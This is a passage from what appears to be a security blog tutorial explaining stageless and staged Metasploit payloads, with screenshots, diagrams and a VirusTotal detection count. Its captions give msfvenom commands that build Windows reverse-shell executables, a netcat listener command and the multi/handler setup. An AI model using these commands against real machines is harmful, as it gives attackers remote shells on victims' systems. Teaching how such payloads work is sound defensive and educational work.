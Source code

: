 Here's what it looks like from a technical side:

<img src="https://blog.spookysec.net/img/Pasted image 20220212170639.png">
*An attacker generates a stageless payload using msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=1337 -f exe -o shell.exe* 

Next, the attacker will start a netcat listener on the port they previously specified.

<img src="https://blog.spookysec.net/img/Pasted image 20220212170838.png">
*The attacker executes nc -lvp 1337 to begin listening on TCP/1337*

The victim machine then runs the Stageless payload, giving the attacker a Reverse Shell.
<img src="https://blog.spookysec.net/img/Pasted image 20220212171007.png">

For science, uploading a Stageless payload generated by MSFVenom to virus total yeilds 55/68 detections (at the time of uploading):

<img src="https://blog.spookysec.net/img/Pasted image 20220212172421.png">
https://www.virustotal.com/gui/file/f5859bd4645822e28d30c8981aef49a2f9a0e6ad59d3b753500b1382d53687bb?nocache=1

*Note: My Eth0 interface has been renamed br0 (bridge0).*

### What is a Staged Payload?
A Staged payload is slightly more complicated, in the sense that it has to beacon out to another device (The initial executable is typically called a "Dropper") to recieve a second "Stage", which contains a more full and complete program. Sometimes this may just be shellcode, other times it could be a completely seperate module, like Mimikatz. Because of the extra involved interaction, it requires a "Hander". The Metasploit Framework has a module for this called exploit/multi/handler. It's important to know that this can used to catch both Staged and Stageless payloads.

<img src="https://blog.spookysec.net/img/Staged Payload.png">

In the diagram above, our victim is tricked into running the dropper, which beacons out to our C2 server to recieve a second stage which is then injected and executed in memory, which triggers a reverse shell callback.

Here's what it looks like from the technical side

<img src="https://blog.spookysec.net/img/Pasted image 20220212174824.png">
*An attacker generates a staged payload using msfvenom -p windows/shell/reverse_tcp LHOST=br0 LPORT=1337 -f exe -o staged.exe*

Next, the attacker will need to start a handler, in our case, we are using Metasploit's exploit/multi/handler module. 

<img src="https://blog.spookysec.net/img/Pasted image 20220212180248.png">

The victim machine machine then runs the Staged payload triggering the second stage to be downloaded, giving the attacker a reverse shell.

<img src="https://blog.spookysec.net/img/Pasted image 20220212180702.png">
